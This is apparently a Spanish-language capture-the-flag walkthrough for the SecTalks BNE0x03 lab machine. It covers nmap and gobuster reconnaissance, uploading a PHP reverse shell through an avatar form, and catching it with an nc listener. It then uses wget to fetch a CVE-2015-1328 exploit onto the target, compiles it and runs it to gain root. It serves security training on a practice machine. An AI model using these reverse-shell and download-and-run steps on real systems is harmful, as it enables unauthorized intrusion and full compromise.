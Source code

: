 # HACKEO A MÁQUINA SECTALKS BNE0X03

En primer lugar realizamos un escaneo de puertos con ayuda de la herramienta nmap a la ip víctima.

> nmap -p- -sS -sC -sV --open --min-rate=5000 -vvv -n -Pn IP -oN escaneo

Abrimos el reporte con nano y observamos que el puerto 80 esta abierto. Esto nos indica que nos encontramos ante un servidor web ademas podemos ver la versión de Apache.

![paso1](https://github.com/Destri0/Ciberseguridad/assets/109970051/7536dd12-5e72-4f77-ba16-2cb7eaa6ed95)

Introducimos la ip victima en nuestro buscador y vemos un panel de login.

![Paso2](https://github.com/Destri0/Ciberseguridad/assets/109970051/a5299879-49e6-4661-b822-3e42eb3e46a5)

En este caso al existir un apartado de registro procedemos a nuestro registro en la web.

![Paso3](https://github.com/Destri0/Ciberseguridad/assets/109970051/d16234f4-c21e-46e8-b050-2ed37433cb93)

Una vez registrado buscaremos por toda la pagina un lugar donde se pueda subir un archivo.

![Paso4](https://github.com/Destri0/Ciberseguridad/assets/109970051/7fb0ae53-0fb7-4b44-bdfa-e734372a4e24)

Encontramos en el apartado de Personal options un lugar para subir nuestro avatar. Aprovecharemos eso para subir una reserve shell.
Antes utilizaremos la herramienta gobuster para ver las direcciones que tiene la ip victima donde se podria subir ese archivo.

> gobuster dir -u http://IP_VICTIMA/ -w /usr/share/wordlists/dirbuster/directory-list-lowecase-2.3-medium.txt

![Paso5](https://github.com/Destri0/Ciberseguridad/assets/109970051/00faa6fa-6e38-4742-9b6e-d48fbe463c95)

Una vez ejecutado el comando podremos observar que la ip victima tiene un directorio de subidas. Ahi encontraremos nuestra reserve shell cuando la subamos.
Abrimos el directorio de /uploads en nuestro buscador.
Despues utilizaremos la siguiente reverse shell.

> https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

En ese archivo cambiaremos la ip y pondremos la ip desde donde estamos realizando el ataque y el puerto lo cambiaremos por el 433 que sera nuestro puerto de escucha.
Una vez que tenemos el archivo editado lo subiremos al apartado de avatar y observaremos que si nos vamos a /uploads encontraremos el archivo subido.

![Paso6](https://github.com/Destri0/Ciberseguridad/assets/109970051/fba5ac03-3226-4713-b6a0-85afe5d474bf)

Ahora nos pondremos en escucha por el puerto 433 en nuestra consola con el siguiente comando.

> nc -nlvp 433

![Paso7](https://github.com/Destri0/Ciberseguridad/assets/109970051/4fd8dd9f-b57c-4484-a689-3d5dc8f4da13)

Una vez que nos encontramos en escucha por el puerto 433 de nuestra consola nos vamos al directorio de /uploads y pinchamos en nuestro archivo para que se ejecute.

![Paso8](https://github.com/Destri0/Ciberseguridad/assets/109970051/faccc3cb-ca42-4c82-8e54-4f2ababb4608)

Podemos ver en nuestra consola que tenemos acceso a la maquina victima pero no tenemos permisos de root.
En este caso ejecutamos el siguiente comando para ver en que version del sistema operativo nos encontramos.

> lsb_release -a

Vemos que nos encontramos en Ubuntu 14.04 y que es una version muy antigua de Ubuntu. Realizamos unas busquedas en internet sobre vulneravilidades de escalada de privilegios de la version y 14.04 de ubuntu.
Encontramos una vulneravilidad que es la CVE-2015-1328. Ademas encontramos un scrip en github que sera el que utilicemos que es el siguiente.

> https://github.com/DarkenCode/PoC/blob/master/CVE-2015-1328/CVE-2015-1328.c

Dentro de la maquina victima nos colocaremos en el directorio de tmp.

> cd tmp

Despues ejecutaremos el comando siguiente para descargar el archivo en nuesta maquina victima.

> wget https://raw.githubusercontent.com/DarkenCode/PoC/master/CVE-2015-1328/CVE-2015-1328.c

Si ejecutamos el comando ls podemos observar que se a descargado el archivo en nuesta maquina victima.

![Paso9](https://github.com/Destri0/Ciberseguridad/assets/109970051/8972d014-f06b-41c8-ac85-db328b740480)

Tras eso ejecutaremos el siguiente comando para ejecutar el exploit.
> gcc CVE-2015-1328.c -o exploit && ./exploit

Tras eso si ejecutamos el comando
> whoami

![Paso10](https://github.com/Destri0/Ciberseguridad/assets/109970051/8c1b4f7d-2718-406e-92d9-2f7040636281)

Podemos observar que hemos ganado acceso total a la maquina victima como root.

Maquina vulnerada al completo.
